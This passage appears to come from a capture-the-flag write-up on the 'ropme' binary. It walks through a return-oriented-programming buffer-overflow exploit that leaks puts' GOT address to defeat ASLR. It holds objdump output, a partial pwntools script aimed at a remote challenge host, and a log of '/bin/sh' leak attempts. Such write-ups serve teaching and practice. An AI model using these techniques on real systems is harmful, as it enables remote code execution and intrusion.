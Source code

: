 We got execution on our machine. But the remote execution is pretty different. Remote target definitely has ASLR (Address-Space-Layout-Randomization), which prevents our execution with hardcoded addresses by randomizing address space. The evasion here is leaking the real address of some function, calculating the offset between real address and related address. And then moving our static addresses on this offset.

Global Offset Table maps the real address with related. See GOT with:
```bash
objdump -R ropme            

ropme:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000600ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000601050 R_X86_64_COPY     stdout@@GLIBC_2.2.5
0000000000601060 R_X86_64_COPY     stdin@@GLIBC_2.2.5
0000000000601018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
0000000000601020 R_X86_64_JUMP_SLOT  __libc_start_main@GLIBC_2.2.5
0000000000601028 R_X86_64_JUMP_SLOT  fgets@GLIBC_2.2.5
0000000000601030 R_X86_64_JUMP_SLOT  fflush@GLIBC_2.2.5
```

So, if we put the address of puts in the RDI and execute the puts function with the address of GOT in RDI, we will receive the leaked address.
```bash
objdump -d ropme -M intel  | grep puts
00000000004004e0 <puts@plt>:
  4004e0:       ff 25 32 0b 20 00       jmp    QWORD PTR [rip+0x200b32]        # 601018 <puts@GLIBC_2.2.5>
  40063a:       e8 a1 fe ff ff          call   4004e0 <puts@plt>
```
The right address is `4004e0`.

We need execute `fflush(0)` again or we will not get the address in output. It's simple cause we already knew how to use ROP.
```bash
objdump -d ropme -M intel  | grep fflush
0000000000400510 <fflush@plt>:
  400510:       ff 25 1a 0b 20 00       jmp    QWORD PTR [rip+0x200b1a]        # 601030 <fflush@GLIBC_2.2.5>
  400649:       e8 c2 fe ff ff          call   400510 <fflush@plt>
```

And Null address in RDI.

The exploit looks like this for now:
```python
#!/usr/bin/env python3
from pwn import *
import binascii
import sys

if sys.argv[1] == 'l':
    p = process('./ropme')
else:
    p = remote('206.189.20.127', 32648)
#gdb.attach(p, 'b *main')
payload = b'A' * 72
pop_rdi = p64(0x4006d3)
got_puts = p64(0x601018)
plt_puts = p64(0x4004e0)
payload += pop_rdi
payload += got_puts
payload += plt_puts
payload += pop_rdi
payload += p64(0x00)
```

[LEAKING /bin/sh]: b'\n' 1625423
[LEAKING /bin/sh]: b'TO FIX: \n' 1625415
[LEAKING /bin/sh]: b'V_LEVEL\n' 1625407
[LEAKING /bin/sh]: b'GVERB\n' 1625399
[LEAKING /bin/sh]: b'ize.c\n' 1625391
[LEAKING /bin/sh]: b'anonicalize.c\n' 1625383
[LEAKING /bin/sh]: b'/bin/sh\n' 1625367
